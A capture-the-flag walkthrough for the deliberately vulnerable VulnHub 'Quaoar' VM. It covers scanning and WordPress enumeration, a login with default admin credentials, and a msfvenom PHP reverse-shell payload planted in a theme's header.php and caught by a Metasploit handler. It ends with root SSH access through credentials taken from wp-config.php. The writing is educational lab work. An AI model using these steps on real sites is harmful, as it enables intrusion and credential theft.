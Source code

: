 ```yaml
---
layout: post
title: VulnHub - Quaoar
categories: [VulnHub]
tags: [Easy,VM,IP,Web,Login,Wordpress,Metasploit,VulnHub]
ctf: true
---
```


## Information


|Name|Author|Series | Difficulty|
|--|--|--|--|
| [Quaoar](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/) | [Viper](https://www.vulnhub.com/author/viper,475/) | [hackfest2016](https://www.vulnhub.com/series/hackfest2016,111/) | Easy

## Let's Start

We start with checking our IP address with:
    ifconfig

![ifconfig](https://i.imgur.com/EeQBHLq.png)
Our IP is:

> 192.168.1.45

Now open ***Zenmap*** (nmap GUI verison),
and do a "Quick Scan" for the IP "192.168.1.*"  ( * symbolize for every number)
![Zenmap Scan](https://i.imgur.com/NGs3HmO.png)
We found that the Target IP is: 

> 192.168.1.47

and that there are a lot of open ports, include the http port (80),
so let's try to put this IP in the FireFox
![IP in FireFox](https://i.imgur.com/T2XfGj2.png)
When we click on the image we move to this page
![Anther Page](https://i.imgur.com/mrQpu7G.png)
But there is nothing in those pages or in the pages source

Let's try to check what we have on the web server with ***Nikto***

    nikto -h 192.168.1.47

![Nikto Scan](https://i.imgur.com/nOeWzvJ.png)
We got that there is a 

 - **rotbots.txt** - we need to manually open
 - **Wordpress** - on the server

Let's use ***Curl*** to get information from server (we want to get the robots.txt file)

    curl -h 192.168.1.47/robots.txt

![Robots.txt Check](https://i.imgur.com/mbrdgZG.png)
We got that there is Wordpress on the server, and that hackers are not allowed (sad smiley).

 - [x] ***robtos.txt***

now let's check the Wordpress
![Wordpress](https://i.imgur.com/Ohtfoo9.png)

 - [x] Wordpress

 We have excellent tool for Wordpress called ***wpscan***, so let's use it.

    wpscan --url 192.168.1.47/wordpress --enumerate

![Wpscan](https://i.imgur.com/oKiB3FH.png)
![Default Admin Password](https://i.imgur.com/XkOuZka.png)
|username|Password  |
|--|--|
|  admin|admin  |
|wpuser| wpuser

We can see that we got the WP verison and that the **default admin password** is still in use!!

Now to move to the login page, just click on the login button the left down corner of the page
![Move To Login Page](https://i.imgur.com/TZ3KWHR.png)

> 192.168.1.47/wordpress/wp-login.php

now use the *username:password*

> admin:admin

and....We're in!
Whenever you login to Wordpress admin page, it's recommnded to try to upload *php shell script*.
So let's create one with ***msfvenom*** (it's tool of Metasploit that generate payloads)

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.45 LPORT=4444 -f raw > Desktop/phpshell.php

Let's break it down - 

 

 - **msfvenom** - the software we use
 - **-p php/meterpreter/reverse_tcp** - the payload we want to use
 - **LHOST 192.168.1.45** - our host to send the information to.
 - **LPORT 4444** - the port we want to work on
 - **-f raw** - the file format we want
 - **> Desktop/phpshell.php** - where we want to save the file and the name of it

![Msfvenom Php Shell](https://i.imgur.com/ksXkYrF.png)
Now open the file with some editor and copy the php code
![PHP Code](https://i.imgur.com/CcMhelV.png)
Now we need to go back to the wordpress admin panel and find some place to upload this php code, let's check if in the *Appearance* there is some place for this, maybe in the *editor*.
Yes we can find on the right side of the screen the php code for the header lets click on it, and paste our code and at the end upload it to the server.

 1. Appearance
 2. Editor
 3. header.php
 4. paste code
 5. upload
 
![Upload the php code](https://i.imgur.com/eeo3Cug.png)

Now we want to start listening to this port, so we open ***msfconsole***.

    msfconsole
and update our settings

    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set lhost 192.168.1.45
    set lport 4444
    exploit
and now we are start listening.
Open the web page of wordpress

> 192.168.1.47/wordpress

![Open the web page](https://i.imgur.com/2c5hnqM.png)
And back to the console we can see that we have connection
![New Connection](https://i.imgur.com/fWCNC35.png)
We want to search in files for clues, so let's see what files we have with the basic command

    ls

We can see a config file, open it

    cat wp-config.php

we can see we have a username and password to MySQL, maybe its the same for the ssh?

|username|password  |
|--|--|
|root  |rootpassword!  |

to connect for the ssh we use this:

    ssh root@192.168.1.47

it's ask for password, so write *rootpassword!* (you cant see your typing when you type the password but keep typing and press enter)
And we are in!

Again let's check the files for clues with

    ls

we can see a file name *flag.txt*.
Open it

    cat flag.txt

## The flag is:

***8e3f9ec016e3598c5eec11fd3d73f6fb***

>
